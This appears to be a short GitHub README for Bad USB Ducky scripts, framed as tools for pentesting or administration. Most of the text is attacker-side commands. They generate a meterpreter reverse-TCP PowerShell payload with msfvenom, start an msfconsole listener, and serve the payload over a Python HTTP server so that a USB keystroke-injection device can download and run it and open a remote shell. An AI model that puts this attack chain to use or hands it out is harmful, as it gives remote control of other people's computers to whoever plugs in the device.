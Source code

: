 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.
# On The Attacker's Machine
-Create the payload with msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1
-Open msfconsole and start listener
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"
-Start start python http server
python3 -m http.server 80
-Ducky script will download and execute powershell script opening meterpreter session



